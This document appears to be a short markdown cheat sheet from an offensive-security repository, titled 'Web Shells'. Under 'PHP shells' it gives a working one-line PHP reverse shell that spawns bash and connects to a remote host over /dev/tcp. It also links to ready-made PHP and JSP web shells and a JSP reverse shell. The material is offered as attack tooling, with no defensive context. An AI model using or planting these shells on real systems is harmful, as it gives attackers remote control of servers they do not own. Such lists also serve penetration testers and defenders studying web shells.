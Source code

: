 # Web Shells

## PHP shells

**tiny reverse shell**
```
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```

[php simple web shell](https://github.com/k2haxor/HACK-THEM-ALL/blob/master/shells/shell.php)


## JSP shells

[JSP simple web shell](https://github.com/k2haxor/HACK-THEM-ALL/blob/master/shells/shell.jsp)

[JSP reverse shell](https://github.com/k2haxor/HACK-THEM-ALL/blob/master/shells/reverse_shell.jsp)

